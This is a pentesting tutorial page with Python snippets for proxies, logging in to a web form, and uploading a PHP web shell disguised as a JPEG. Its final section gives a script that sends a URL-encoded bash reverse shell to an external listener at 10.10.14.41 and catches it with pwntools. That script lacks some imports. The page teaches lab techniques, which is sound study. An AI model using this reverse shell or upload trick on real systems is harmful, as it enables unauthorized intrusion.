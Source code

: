 # Pentesting with Python3

## Style Guide for Python Code

If you want to write good code then read this:

{% embed url="https://www.python.org/dev/peps/pep-0008/" %}

## Python3 Library

The best way to learn commands or code is to read the official documentation:

{% embed url="https://docs.python.org/3/library/index.html" %}

## Modules/Library

Here are the most common modules or libraries that are most often used in scripts or exploits.

### pwntools

{% embed url="https://docs.pwntools.com/en/stable/" %}

### requests

{% embed url="https://docs.python-requests.org/en/master/" %}

### os

{% embed url="https://docs.python.org/3/library/os.html" %}

### sys

{% embed url="https://docs.python.org/3/library/sys.html" %}

### time

{% embed url="https://docs.python.org/3/library/time.html" %}

### urllib

{% embed url="https://docs.python.org/3/library/urllib.html" %}

### struct

{% embed url="https://docs.python.org/3/library/struct.html" %}

## HTTP Proxies

We may need proxies for debugging or troubleshooting, the following code is an example of this:

```python
#!/bin/python3

import requests

proxies = {
    "http": "http://127.0.0.1:8080",
}

s = requests.Session()
s.proxies.update(proxies)
```

## HTTP Login

### HTML Form

An example of a login form may look like the following code:

```python
#!/bin/python3

import requests

# Session
s = requests.Session()

login_url = 'http://10.10.10.185/login.php'
login_parameters = {"username": "username_here", "password": "password_here"}
s.post(login_url, data=login_parameters, allow_redirects=True)
```

## HTTP Login Bruteforce

### Password Bruteforce

A very simple password brute force script on HTTP non SSL/TLS can be the following:

## HTTP File Upload

### Multipart-Encoded File

Some servers are configured to upload files using one or more Content-Disposition headers:

```python
#!/bin/python3

import requests
  
upload_url = "http://10.10.10.10/upload.php"

"""
Content-Disposition: form-data; name="image"; filename="rce.php.jpg"
Content-Type: image/jpeg
Content-Disposition: form-data; name="submit"
Upload Image
"""
upload_image = {
    "image": ("rce.php.jpg", open("rce.jpg", "rb"), "image/jpeg"),
    "submit": (None, "Upload Image"),
}

requests.post(
    upload_url,
    files=upload_image,
)

print("[+] Uploaded the file")
```

## Interactive Shell with pwn

This is a way to receive an interactive shell via a socket, however, you may have problems establishing a TTY/PTY shell:

```python
#!/bin/python3

import requests
from pwn import log, context, listen

def foothold():
    # Reverse Shell
    rce_url = "http://10.10.10.185/images/uploads/rce.php.jpg"
    payload = "?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.41%2F1234%200%3E%261%27"
    requests.get(rce_url + payload)


if __name__ == "__main__":
    try:
        threading.Thread(target=foothold, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    listen_port=1234
    
    p1 = log.progress("Foothold")
    p1.status("Gaining access to the system.")
    
    shell = listen(listen_port, timeout=5).wait_for_connection()
    
    # Check if the socket has been established
    if shell.sock is None:
        log.failure("We couldn't connect to the system")
        sys.exit()
    else:
        log.success("We have access to the system as the user www-data")
        time.sleep(1)
    
    shell.interactive()
```

